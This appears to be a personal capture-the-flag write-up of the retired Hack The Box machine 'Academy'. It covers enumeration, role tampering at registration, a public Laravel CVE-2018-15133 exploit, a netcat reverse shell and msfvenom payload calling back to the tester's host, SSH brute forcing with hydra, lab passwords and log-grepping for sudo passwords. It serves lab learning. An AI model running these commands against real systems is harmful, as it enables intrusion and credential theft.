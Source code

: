 ```yaml
---
tags:
  - Linux
  - HTB
  - Retired
creation date: 2024-08-17
IP: 10.129.99.197
URL: https://app.hackthebox.com/machines/Academy
Domain: academy.htb
CVEs: CVE-2018-15133
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T5 $IP  
```

```
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?

```

### ffuf (Directories/Subdomain/Files)

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt:FUZZ -u $URL/FUZZ
```

![[Pasted image 20240817090700.png]]
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt:FUZZ -u $URL/FUZZ
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u $URL -H "HOST: FUZZ.academy.htb"
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://academy.htb/config.php?FUZZ=key -fs 0
```

### Nikto (Identify Technology)

```session
nikto -h $URL
```

led me astray...
![[Pasted image 20240817104506.png]]

**What we know so far**

Website running HTB Academy

admin.php, login.php (created a user account hacker:hacked)
![[Pasted image 20240817092214.png]]
Username: egre55
![[Pasted image 20240817101717.png]]
### SQLMAP
nothing...

### BurpSuite
Intercept registration and modify roleid
![[Pasted image 20240817104402.png]]

can now login with those creds on the admin.php

admin.php:
![[Pasted image 20240817104424.png]]
Users so far:
cry0l1t3
mrb3n
egre55

eww
![[Pasted image 20240817104822.png]]

### MySQL

![[Pasted image 20240817104907.png]]

![[Pasted image 20240817105044.png]]


## Foothold

Clues: 
![[Pasted image 20240817112123.png]]![[Pasted image 20240817112141.png]]
I googled so much but finally hit the right combo "laravel api exploit"

PoC: https://github.com/aljavier/exploit_laravel_cve-2018-15133

```session
python3 ./pwn_laravel.py http://dev-staging-01.academy.htb/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive
```

![[Pasted image 20240817112417.png]]

#### Enumeration
![[Pasted image 20240817113053.png]]

Get a better shell 🐚
```session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.15.64 31337 >/tmp/f
```

then an even better 🐚🐚
```session
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=1337 -f ELF > shell
```

### LinPeas

![[Pasted image 20240817120233.png]]![[Pasted image 20240817120323.png]]

tried getting in to dbs with the new creds... nothing. Time to run hydra and get SSH as a new user

## Lateral Movement

```
hydra -L user -P pass 10.129.99.197 ssh
```

![[Pasted image 20240817123313.png]]

![[Pasted image 20240817120954.png]]

cry0l1t3:mySup3rP4s5w0rd!!
### LinPeas 
![[Pasted image 20240817122042.png]]

mrb3n:mrb3n_Ac@d3my!

Checking for TTY (sudo/su) passwords in audit logs

#TakeAways
adm means you have access to view logs
how to search through logs

```session
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

## Lateral Movement

![[Pasted image 20240817122819.png]]

![[Pasted image 20240817122848.png]]
sticky bit... time for GTFObins!

![[Pasted image 20240817122957.png]]

